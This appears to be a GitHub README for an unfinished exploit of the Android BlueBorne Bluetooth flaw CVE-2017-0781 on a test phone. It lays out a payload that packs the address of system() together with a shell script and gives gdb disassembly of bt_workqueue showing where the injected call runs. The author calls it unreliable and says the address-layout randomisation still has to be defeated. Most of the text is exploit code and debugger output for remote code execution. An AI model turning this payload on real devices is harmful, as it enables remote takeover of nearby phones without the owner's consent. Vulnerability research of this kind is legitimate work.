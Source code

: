 # android712-blueborne (Work in progress - dirty code)

For testing purposes removed the CVE-2017-0781 pathces and compiled 7.1.2 (LineageOS CM 14.1) on my Samsung S3 Neo+ GT-9301I

Android Blueborne RCE CVE-2017-0781

Tricky to pull off.... not reliable. Since you have to know REMOTE_NAME address, as well as defeate ALSR.

Control r4 register which is REMOTE_NAME

Payload is:
```
SHELL_SCRIPT = b'touch /tmp/test'

Payload is: '"\x17AAAAAAsysm";\n<bash_commands>\n#'
'sysm' is the address of system() from libc. The *whole* payload is a shell script.
0x1700 == (0x1722 & 0xff00) is the "event" of a "HORRIBLE_HACK" message.
payload = struct.pack('<III', 0x41411722, 0x41414141, system_addr) + b'";\n' + SHELL_SCRIPT + b'\n#'
```

After dozen of executions got this condition in

bt_workqueue

```
(gdb) x/30i 0xacda11c4
=> 0xacda11c4:	ldrh	r1, [r4, #0]
   0xacda11c6:	bic.w	r0, r1, #255	; 0xff
   0xacda11ca:	cmp.w	r0, #5632	; 0x1600
   0xacda11ce:	bge.n	0xacda11ec
   0xacda11d0:	cmp.w	r0, #4096	; 0x1000
   0xacda11d4:	beq.n	0xacda1206
   0xacda11d6:	cmp.w	r0, #4352	; 0x1100
   0xacda11da:	beq.n	0xacda1230
   0xacda11dc:	cmp.w	r0, #4608	; 0x1200
   0xacda11e0:	bne.n	0xacda1250
   0xacda11e2:	mov	r0, r4
   0xacda11e4:	ldmia.w	sp!, {r4, lr}
   0xacda11e8:	b.w	0xacd738a4
   0xacda11ec:	beq.n	0xacda123a
   0xacda11ee:	cmp.w	r0, #6400	; 0x1900
   0xacda11f2:	beq.n	0xacda1246
   0xacda11f4:	cmp.w	r0, #5888	; 0x1700
   0xacda11f8:	bne.n	0xacda1250
   0xacda11fa:	ldr	r1, [r4, #8]
   0xacda11fc:	mov	r0, r4
   0xacda11fe:	blx	r1
   0xacda1200:	ldr	r0, [pc, #92]	; (0xacda1260)
   0xacda1202:	add	r0, pc
```

As we can see our system call should be executed on  0xacda11fe

